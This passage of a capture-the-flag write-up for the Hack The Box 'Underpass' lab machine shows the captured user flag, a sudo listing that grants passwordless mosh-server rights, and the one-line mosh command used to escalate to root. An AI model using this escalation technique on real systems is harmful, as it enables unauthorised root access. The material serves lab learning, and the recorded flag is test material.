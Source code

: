 ```
  Memory usage: 33%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun May 11 19:04:09 2025 from 10.10.14.186
svcMosh@underpass:~$
```

We found the fisrt flag to submit on htb:

```
svcMosh@underpass:~$ ls
user.txt
svcMosh@underpass:~$ cat user.txt 
8bc994f8799fc71ead820322425fc6ee
svcMosh@underpass:~$
```
## PrivEsc

The user svcMosh have sudo permissions on the binary mosh-server

```
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
svcMosh@underpass:~$
```
Doing some research I found the following **[website](https://www.hackingdream.net/2020/03/linux-privilege-escalation-techniques.html)** where it explains how to exploit this binary to access as root if we have SUID permissions.

So using the following command i gain access to the root user --> ***mosh --server="sudo /usr/bin/mosh-server" localhost***.

<p align = "center">